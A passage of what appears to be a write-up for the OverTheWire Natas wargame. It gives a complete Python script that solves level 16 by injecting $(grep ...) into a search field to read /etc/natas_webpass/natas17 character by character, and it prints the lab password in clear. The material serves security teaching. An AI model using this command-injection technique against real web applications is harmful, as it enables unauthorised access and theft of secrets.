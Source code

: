 Let write the full python script

```py
import requests
import re
import os ,sys
from string import *


cmd = ""
os_name = sys.platform
if os_name == 'win32':
	cmd = "cls"
elif os_name == 'linux' or os_name == 'darwin':
	cmd =  "clear"

characters = ascii_lowercase + ascii_uppercase + digits
username = "natas16"
pasword = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
url = "http://%s.natas.labs.overthewire.org"%username

# anaesthetics grep ^* /etc/natas_webpass/natas17
session = requests.Session()
seen_password = list()

while (len(seen_password) < 32):

	for ch in characters:
		print("Trying char : ", "".join(seen_password) + ch)
		response = session.post(url , data={ "needle" : "anaesthetics$(grep ^" + "".join(seen_password) + ch + " /etc/natas_webpass/natas17)" } , auth=(username,pasword))
		content = response.text
		flag = re.findall("<pre>\n(.*)\n</pre>" , content)
		if flag == []:
			seen_password.append(ch)
		os.system(cmd)

flag = "".join(seen_password)
print("[+] Gotcha ",flag)
```

---

### Natas 17

<img src="img/Pasted image 20240505172037.png" alt="Example Image" width="1080"/>
<br>
